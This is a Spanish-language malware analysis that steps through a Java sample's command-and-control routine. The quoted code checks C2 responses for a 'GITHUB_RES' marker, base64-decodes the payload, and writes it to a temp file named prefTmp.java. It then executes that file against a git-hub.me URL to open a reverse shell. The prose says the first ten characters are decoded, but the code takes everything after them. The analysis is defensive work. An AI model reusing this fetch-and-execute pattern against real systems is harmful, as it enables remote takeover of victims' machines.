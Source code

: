 - Si la solicitud no es bien recibida (Código HTTP 200) el malware aguarda 5 segundos. A partir de ahora toda comunicación deberá tener en su contenido el string "GITHUB_RES" indicando que es el C2 quién lo envía. Otras respuestas que no incluyan ese patrón son ignoradas.

```java
if (response.statusCode() != 200)
{
  Thread.sleep(5000);
  continue;
}
String resStr = response.body();
if (!resStr.startsWith("GITHUB_RES"))
{
  System.out.println("Data Error");
} else {
```

- Tras el diálogo inicial con el C2 el malware revisará si la respuesta recibida es mayor a 11 caracters. De ser así, tomará los primeros 10 y los decodificará desde base64 y los pasará a formato UTF-8.

```java
if (resStr.length() > 11)
{
    String enc_data = resStr.substring(10);
    byte [] dec_data = Base64.getDecoder().decode(enc_data);
    String org_file = new String(dec_data, StandardCharsets.UTF_8);
    String org_path;
}

```

- Se crearán dos archivos en los directorios temprales: `p.dat` y `prefTmp.java`. En este último se escrbirán los 10 caracteres recibidos en la solicitud anterior.

```java
if (Integer.parseInt(getOperatingSystem()) == 0)
{
    org_path = System.getProperty("java.io.tmpdir") + "\\prefTmp.java";
    sec_path = System.getProperty("java.io.tmpdir") + "\\p.dat";
} else {
    org_path = System.getProperty("java.io.tmpdir") + "/prefTmp.java";
    sec_path = System.getProperty("java.io.tmpdir") + "/p.dat";
}
try (FileWriter file = new FileWriter(org_path, true);BufferedWriter buffer = new BufferedWriter(file)) {
    buffer.write(org_file);
}
```

- Finalmente el malware ejecutará el comando: `$TEMP/prefTmp.java $UID https://www.git-hub.me/view.php` para generar una shell reversa.

```java
String cmdline = "java " + org_path + " " + uid + " " + POST_URL;
Runtime.getRuntime().exec(cmdline);
Thread.sleep(3000);
```
